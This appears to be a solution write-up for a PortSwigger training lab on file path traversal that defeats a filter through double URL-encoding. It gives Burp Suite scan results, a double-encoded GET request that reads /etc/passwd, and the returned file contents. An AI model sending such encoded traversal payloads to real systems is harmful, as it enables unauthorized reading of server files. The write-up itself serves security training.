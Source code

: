 # [Lab: File path traversal, traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)

## Lab

This lab contains a file path traversal vulnerability in the display of product images.

The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Scan

- burpsuite intruder payload `path traversal (single file)` contains double_encoding

- burpsuite scanner detected
  - `File path traversal`
  - `/image`
  - The payload `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd` was submitted in the filename parameter. The requested file was returned in the application's response.

## Solutions

double_encoding(`../../../../../../etc/passwd`):

```http
GET /image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd HTTP/1.1

HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 2262

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/
...
```
